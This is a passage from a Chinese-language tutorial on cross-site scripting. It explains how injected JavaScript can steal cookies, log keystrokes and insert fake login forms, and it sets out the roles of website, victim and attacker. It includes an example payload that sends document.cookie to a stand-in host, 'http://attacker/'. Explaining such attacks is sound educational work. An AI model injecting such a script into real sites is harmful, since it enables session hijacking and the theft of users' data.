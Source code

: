 但是，当你考虑到下面几点时，就会更清楚恶意 JavaScript 可能造成的危害：

- JavaScript 可以访问用户的敏感信息，例如 cookies。
- JavaScript 可以通过 XMLHTTPRequest 或是其它方式发送 HTTP 请求，将任意内容发送到任意目标。
- JavaScript 可以通过 DOM 操作方法，对当前页面进行任意篡改。

上面的因素结合起来就可以造成严重的安全隐患，如下所述。

### 恶意 JavaScript 有哪些危害

在其它用户浏览器中执行任意 JavaScript 的能力，使得攻击者可以进行下面几种攻击：

- **盗取 Cookie**：攻击者使用 `document.cookie` 可以获取受害者与网站关联的 cookie，将其发送到自己的服务器，并利用 cookie 提取敏感信息，例如 session IDs。
- **键盘记录**：攻击者使用 `addEventListener` 可以注册键盘事件监听，然后将用户所有的键盘记录发送到自己的服务器，这里面可能会包含敏感信息，例如：密码或信用卡号。
- **钓鱼**：攻击者使用 DOM 操作可以插入一个伪造的登录表单，将表单的 `action` 属性设置为自己的服务器地址，然后欺骗用户提交敏感信息。

尽管这几种攻击方式大不相同，但有个关键点是相同的：由于攻击者是在网站提供的页面中注入的代码，所以恶意 JavaScript 会在网站的上下文中执行。这意味着，恶意 JavaScript 与来自网站的其它脚本待遇相同：它可以访问该网站上受害者的数据（例如：cookie）和 URL 地址栏中的主机名。不论出于何种目的，被注入的脚本会被看成网站合法的一部分，网站可以做的事，它同样可以做。

这样的事实凸显了一个关键点：

> 如果攻击者可以利用你的网站在其它用户浏览器中执行任意 JavaScript，那么你的网站及其用户的安全都受到了威胁。

为了强调这一点，本教程中的一些例子会略去恶意 JavaScript 的详细内容，只是表示为 `<script>...</script>`，这表明，不管实际中执行的是什么代码，只要攻击者注入的脚本出现，问题就存在。

## 第二部分：XSS 攻击

### XSS 攻击涉及到的角色

在详细介绍 XSS 攻击如何进行之前，需要定义 XSS 中涉及到的角色。通常，一次 XSS 会涉及三个角色：**网站**、**受害者**和**攻击者**。

- **网站**响应 HTML 页面给发起请求的用户。在我们的例子中，网站是 http://website/。
	- **网站的数据库**用来存储一些用户的输入，并输出到网站页面中。
- **受害者**是网站的普通用户，通过浏览器请求页面。
- **攻击者**是网站的恶意用户，准备利用网站的 XSS 漏洞发起攻击
	- **攻击者的服务器**是由攻击者控制，唯一的用途是盗取用户敏感信息。在我们的例子中，位于 http://attacker/ 
	

### 一次攻击示例

在这个例子当中，我们假设攻击者的目标是通过利用网站 XSS 漏洞盗取受害者的 cookie。这可以通过在受害者浏览器中执行如下代码实现：

```
<script>
window.location='http://attacker/?cookie='+document.cookie
</script>
```
上面的脚本将浏览器导航到新的页面，并触发一次 HTTP 请求到攻击者的服务器。URL 将受害者的 cookie 作为查询参数，当请求到达攻击者服务器时，攻击者就可以提取 cookie。一旦攻击者拿到了 cookie，他就可以冒充受害者，进而发起更深入的攻击。

从现在起，我们将上面的 HTML 代码称为恶意字符串或是恶意脚本。需要注意的是，上面的字符串只有被受害者浏览器作为 HTML 解析之后，才会产生危害。

#### 示例攻击如何进行

下图展示了攻击者如何进行攻击：
